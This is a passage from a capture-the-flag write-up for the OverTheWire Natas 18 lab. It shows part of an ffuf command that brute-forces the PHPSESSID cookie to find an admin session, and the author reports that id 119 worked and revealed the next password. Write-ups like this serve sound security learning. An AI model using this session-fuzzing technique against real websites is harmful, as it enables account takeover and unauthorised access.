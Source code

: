 ```bash
    -H $'Referer: http://natas18.natas.labs.overthewire.org/' \
    -H $'Accept-Encoding: gzip, deflate, br' \
    -H $'Accept-Language: en-GB,en-US;q=0.9,en;q=0.8' \
    -H $'Connection: close' \
    -b $'PHPSESSID=FUZZ' \
    -d $'username=admin&password=somoene' \
    -fr "You are logged in as a regular user."
```
{% endcode %}

From the result of above `ffuf` command, we can see that `119` was the only id that didn't had the line "You are logged in as a regular user." in its response.

<figure><img src=".gitbook/assets/image (4) (1).png" alt=""><figcaption></figcaption></figure>

So I tried to login with a session id of `119`, it worked and got the password for the next level.

